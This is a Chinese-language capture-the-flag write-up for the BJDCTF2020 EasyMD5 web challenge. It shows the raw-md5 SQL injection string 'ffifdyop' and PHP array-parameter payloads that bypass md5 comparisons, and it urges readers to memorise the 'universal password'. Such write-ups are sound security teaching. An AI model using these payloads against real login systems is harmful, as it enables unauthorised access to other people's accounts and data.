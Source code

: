 # BJDCTF2020-EasyMD5-Web


## 0x01 md5注入

打开网页只给出这样一个输入框：

![level1](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/20230917151641.png)

这里随便输入密码，发现网页GET传参password，但是尝试SQL注入无果。

于是使用Brupsuite尝试抓取相应包，发现提示：

![HINT](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/20230917152024.png)

考虑如下sql语句

```sql
$sql = "select * from 'admin' where password = '".md5($_GET[password],true)."'";
```

于是尝试MD5下的sql注入。也就是想办法找到一个字符串，它的md5值转化为字符串（md5函数的第二个参数是true，则将16进制的哈希结果转化为字符串格式）可以闭合sql语句（也就是password=''or'xxx'）并且恒为Ture。

这里提供一个别人构造好的字符串：ffifdyop

```php	
<?php
    $str = md5('ffifdyop');
    echo $str;
    print("\n");
    $str = md5("ffifdyop",true);
    echo $str;
?>
```

输入结果为

```output
276f722736c95d99e921722cf9ed621c
'or'6�]��!r,��b
```

'or'可以实现闭合。

输入ffifdyop，跳转至下一个网页。

## 0x02 md5判断绕过

查看网页源码发现提示：

![Do you like MD5?](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/20230917153224.png)



根据之前的文章：[PHP中数组绕过的一些函数 | AlexanderZ.Tang (alextang.top)](http://www.alextang.top/2023/09/17/PHP中数组绕过的一些函数/)可知，当md5的第一个参数是数组时会返回null，而null==null，因此答案就是传入两个数组（注意这两个数组的值不能相同）。

```payload
levels91.php?a[]=1&b[]=2
```

## 0x03 POST传值

和上一节一模一样，只不过这次使用POST传递参数。payload将参数名字改一下就行。
![source](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/20230917153635.png)

```payload
param1[]=a&param2[]=b
```

得到结果

![flag](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/20230917153755.png)

## 0x04 总结

这题的关键在于第一问，这个常用的md5万能密码应该记住。


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/bjdctf2020-easymd5-web/  

